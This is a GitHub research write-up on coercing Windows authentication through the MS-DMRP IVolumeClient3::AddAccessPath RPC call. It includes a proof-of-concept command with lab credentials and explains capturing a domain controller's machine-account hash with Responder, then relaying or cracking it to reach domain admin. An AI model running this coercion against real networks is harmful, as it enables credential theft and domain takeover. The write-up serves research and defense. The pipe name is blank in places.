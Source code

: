 # MS-DMRP - Remote call to IVolumeClient3::AddAccessPath (opnum 77)

## Summary

 - **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

 - **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVolumeClient3::AddAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/b6d2b0f6-e8fd-405d-bc19-11667754ffc8)

 - **Function operation number**: `77`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient3::AddAccessPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/b6d2b0f6-e8fd-405d-bc19-11667754ffc8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient3::AddAccessPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddAccessPath(
   [in] int cch_path,
   [in, size_is(cch_path)] WCHAR* path,
   [in] LdmObjectId targetId
 );
```

## References

 - Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

 - Documentation of function `IVolumeClient3::AddAccessPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/b6d2b0f6-e8fd-405d-bc19-11667754ffc8